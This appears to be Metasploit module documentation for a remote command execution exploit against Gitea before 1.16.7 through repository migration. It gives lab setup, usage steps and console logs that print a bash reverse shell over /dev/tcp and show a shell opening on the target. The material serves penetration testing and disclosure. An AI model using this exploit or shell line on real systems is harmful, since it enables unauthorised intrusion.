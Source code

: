 ## Vulnerable Application

[Gitea](https://gitea.io/) is a painless self-hosted Git service community
managed lightweight code hosting solution written in Go.

This module has been tested successfully on Gitea versions:
* 1.16.6 (Docker)

### Description

This module exploits Git fetch command in Gitea repository migration process that leads to a remote command execution on the system.
This vulnerability affect Gitea before 1.16.7 version.

The module will automatically use `cmd/unix/reverse_bash` payload and unix
target.

The migration process require valid Git repository address so the module will
use the Gitea target itself by creating a temporary repository. This scenario
won't work with [Gitea default configuration](https://github.com/go-gitea/gitea/blob/main/custom/conf/app.example.ini)
because `ALLOW_LOCALNETWORKS` is disabled. However, it will be ignored when
[ALLOWED_DOMAINS](https://github.com/go-gitea/gitea/blob/main/custom/conf/app.example.ini#L2289)
is set, but it must be set to all domain with `*` for this scenario to work.

### Source and Installers

* [Source Code Repository](https://github.com/go-gitea/gitea/)
* [Installers](https://dl.gitea.io/gitea/1.16.6)
* [Docker](https://docs.gitea.io/en-us/install-with-docker/)

### Docker installation
1. create `docker-compose.yml` file
```
version: "3"

networks:
  gitea:
    external: false

services:
  server:
    image: gitea/gitea:1.16.6
    container_name: gitea
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
    networks:
      - gitea
    volumes:
      - ./gitea:/data
      - /etc/timezone:/etc/timezone:ro
      - /etc/localtime:/etc/localtime:ro
    ports:
      - "3000:3000"
      - "222:22"
```
2. run `docker-compose up`
3. append `ALLOW_LOCALNETWORKS` in the configuration file.
```
:~$ cat << EOF >> gitea/gitea/conf/app.ini
> [migrations]
> ALLOW_LOCALNETWORKS = true
> EOF
```
4. Navigate to the localhost port 3000 and finish the installation. Note that
   the first registered user will automatically become administrator so make
   sure to set the administrator username and password upon installation.

## Verification Steps

1. Navigate to `/user/sign_up` and register normal user
2. Do: `use unix/webapp/gitea_git_fetch_rce`
3. Do: `set RHOSTS [ips]`
4. Do: `set LHOST [lhost]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `run`
8. You should get a shell.

## Options

## Scenarios
### Successful exploitation of Gitea 1.16.6 on Docker

```
msf6 > use unix/webapp/gitea_git_fetch_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set USERNAME msf
USERNAME => msf
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set PASSWORD qwerty
PASSWORD => qwerty
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > run

[+] bash -c '0<&180-;exec 180<>/dev/tcp/172.17.0.1/4444;sh <&180 >&180 2>&180'
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/gitea_git_fetch_rce) >
[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://172.17.0.1:8080/msf/eqESXv4b
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/msf/eqESXv4b
[*] Adding hardcoded uri /api/v1/repos/msf/eqESXv4b/pulls
[*] Adding hardcoded uri /api/v1/repos/msf/eqESXv4b/topics
[*] Creating repository "7vX49Gy2Rui5WHQ"
[+] Repository created
[*] Migrating repository
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:50212) at 2022-09-15 18:51:31 +0700
[*] Cleanup: removing repository "7vX49Gy2Rui5WHQ"
[*] Cleanup: removing repository "eqESXv4b"
[*] Server stopped.

msf6 exploit(unix/webapp/gitea_git_fetch_rce) > sessions 1
[*] Starting interaction with 1...

id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
```

### Failed exploitation due to migration settings

```
msf6 > use unix/webapp/gitea_git_fetch_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set USERNAME msf
USERNAME => msf
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set PASSWORD qwerty
PASSWORD => qwerty
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > run

[+] bash -c '0<&130-;exec 130<>/dev/tcp/172.17.0.1/4444;sh <&130 >&130 2>&130'
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/gitea_git_fetch_rce) >
[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://172.17.0.1:8080/msf/XG1AhW3
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/msf/XG1AhW3
[*] Adding hardcoded uri /api/v1/repos/msf/XG1AhW3/pulls
[*] Adding hardcoded uri /api/v1/repos/msf/XG1AhW3/topics
[*] Creating repository "7A4o5kYw3Y"
[+] Repository created
[*] Migrating repository
[*] Cleanup: removing repository "7A4o5kYw3Y"
[*] Server stopped.
[-] Exploit aborted due to failure: unexpected-reply: Unable to migrate repo:
You can not import from disallowed hosts, please ask the admin to check
ALLOWED_DOMAINS/ALLOW_LOCALNETWORKS/BLOCKED_DOMAINS settings.
```
